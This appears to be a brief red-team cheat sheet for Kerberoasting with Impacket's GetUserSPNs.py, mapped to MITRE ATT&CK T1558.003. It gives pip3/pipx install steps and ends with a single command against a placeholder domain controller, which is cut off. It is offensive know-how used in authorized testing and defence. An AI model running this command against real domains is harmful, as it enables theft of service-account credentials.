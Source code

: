 # Red Team - Performing Kerberoasting

**Tool:** Impacket - GetUserSPNs.py  
**Tactic:** Credential Access  
**Technique:** Kerberoasting  
**MITRE ATT&CK ID:** T1558.003

## Requirements:
- Valid domain credentials (e.g., `john.doe@contoso.local`)
- dc-ip (e.g., `10.0.0.5`)
- Access to the internal network

## Install PIP3/Impacket
install pip3: 
```bash
sudo apt install python3-pip
```

Then: 
````bash
pip3 install pipx
````

Then: 
```bash
sudo apt install python3.10-venv
````

Then: 
````bash
python3 -m pipx install impacket
````
Then: 
````bash
python3 -m pipx ensurepath
````
Lastly: 
````bash
source ~/.bashrc
````

## Command Example:
```bash
python3 GetUserSPNs.py CONTOSO.LOCAL/john.doe -dc-ip 10.0.0.5
